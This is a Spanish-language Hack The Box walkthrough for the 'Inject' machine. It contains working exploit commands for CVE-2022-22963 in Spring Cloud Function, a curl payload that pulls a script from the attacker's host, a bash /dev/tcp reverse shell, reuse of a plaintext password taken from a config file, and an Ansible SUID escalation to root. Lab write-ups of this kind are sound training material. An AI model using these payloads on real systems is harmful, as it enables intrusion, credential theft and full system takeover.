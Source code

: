 ```yaml
---
layout: post
author: 4akatun
---
```


# Writeup
![Inject](assets/img/Inject/inject.png)

HACK-THE-BOX

-----------------------------------------------------------

Iniciamos el escaneo en la maquina victima.

```bash
# Nmap 7.93 scan initiated Tue Mar 21 20:39:10 2023 as: nmap -sCV -p22,8080 -oN targeted 10.10.11.204
Nmap scan report for 10.10.11.204
Host is up (0.049s latency).

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 caf10c515a596277f0a80c5c7c8ddaf8 (RSA)
|   256 d51c81c97b076b1cc1b429254b52219f (ECDSA)
|_  256 db1d8ceb9472b0d3ed44b96c93a7f91d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar 21 20:39:20 2023 -- 1 IP address (1 host up) scanned in 10.36 seconds
```
Analizo la pagina web, dado que no hay mucho mas.

![web-Inject](/assets/img/Inject/web_inject.png)

Veo esto, curioseando lo unico interesante en el apartado **upload**
![upload](/assets/img/Inject/upload_inject.png)

Solo admite archivos de imagen

![upload-result](/assets/img/Inject/img_upload.png)

Provare con cualquier imagen 

![upload-succes](/assets/img/Inject/succesful_img.png)

Bien, se ha subido correctamente y paso por **BurpSuite** la *url* de la imagen. Se ve lo siguiente...
![img-url](/assets/img/Inject/burp_inject.png)

Lo que funciona en este caso es **LFI** -> *Local File Inclusion*.
Apuntamos al **/etc/hosts** para validar que funciona nuestro *LFI*
![LFI](/assets/img/Inject/LFI_inject.png)

Buscando algo de lo que aprovecharme, encuentro en la ruta **/var/www/WebApp** un 
archivo con nombre ***pom.xml***

![xml-file](/assets/img/Inject/xml.png)

Lo examino y encuentro algo y busco informacion para ver si me puedo aprovechar para poder subir 
archivos a la maquina victima. Dejo enlaces con la informacion ->
* Enlace [How to exploit CVE-2022-22963](https://sysdig.com/blog/cve-2022-22963-spring-cloud/)
* Enlace [Exploit](https://github.com/darryk10/CVE-2022-22963)

Probamos los comandos para subir un archivo *test* y ver que funcione.

```bash
❯ curl -X POST -H 'Host: 10.10.11.204:8080' -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec(\"touch /tmp/test")' --data-binary 'exploit_poc' 'http://10.10.11.204:8080/functionRouter'
```

![test-file](/assets/img/Inject/test_file_inject.png)

Y lo tenemos, archivo subido, ahroa subimos nuestro archivo malicioso con un comando de **revers shell**

```bash
bash -i >& /dev/tcp/tu-ip/443 0>&1
```
Lo volvemo a subir con el comando anterior.

```bash
❯ curl -X POST -H 'Host: 10.10.11.204:8080' -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("curl 10.10.14.15/rever.sh -o /tmp/rever.sh")' --data-binary 'exploit_poc' 'http://10.10.11.204:8080/functionRouter'
```

![revers-file](/assets/img/Inject/rever_inject.png)

Ya esta, lo queda mandar otra orden para ejectar el archivo y estando en escucha en nuestro equipo con **netcat** obtenemos una **shell**

```bash
❯ curl -X POST -H 'Host: 10.10.11.204:8080' -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash /tmp/rever.sh")' --data-binary 'exploit_poc' 'http://10.10.11.204:8080/functionRouter'
```

```
bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.204] 40436
bash: cannot set terminal process group (820): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.0$ whoami
whoami
frank
bash-5.0$ 
```
Estamo dentro como el usuario *frank*, tendremos que pivotar de usuario a *phil* para poder ver la flag de bajos privilegios.

```bash
bash-5.0$ cat settings.xml 
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
bash-5.0$
```
Encuentro un archivo llamando **settings.xml** al que hechandole un vistazo vemos al usuario *phil* y una *contraseña* que probaremos para cambiar de usuario y ver si aun es valida.

```bash
bash-5.0$ su phil
Password:DocPhillovestoInject123
bash-5.0$ whoami
phil
bash-5.0$ cat /home/phil/user.txt 
e0c**************************fcb
bash-5.0$ 
```
Pareceser que es valida y podemos visualizar la flag, hora de continuar con la escalada.
Subimos el binario **linpeas** para analizar y buscar formas factibles de escalada de privilegios.

![linpeas](/assets/img/Inject/linpeas.png)

Veo este archivo en la ruta **/opt** el cual puede ser modificado, busco mas informacion para
ver de que se trata. Dejo lo enlaces ->

* Enlace [playbook-guide](https://docs.ansible.com/ansible/latest/playbook_guide/playbooks_intro.html)
* Enlace [playbook-guide-privilege-scalation](https://docs.ansible.com/ansible/latest/playbook_guide/playbooks_privilege_escalation.html)

Bien una vez analizada la informacion nos cramos nuestro archivo de nombre **pe.yml** al que le 
otorgare la capacidad de cambiar los permisos de **/bin/bash** para que sea **SUID**.

```yaml
 - hosts: localhost
   tasks:
     - name: 4aka pe
       shell: chmod +s /bin/bash
       become: true
```

Ya lo tenemos y esperdao unos segundos es ejecutado y obtenemos una *shell* con maximos privilegios,
vemos la flag final.

```bash
bash-5.0$ bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt 
7f6**************************bf6
bash-5.0#
```
Esto es todo.

# Espero que te pueda servir de ayuda. *GRACIAS por venir*
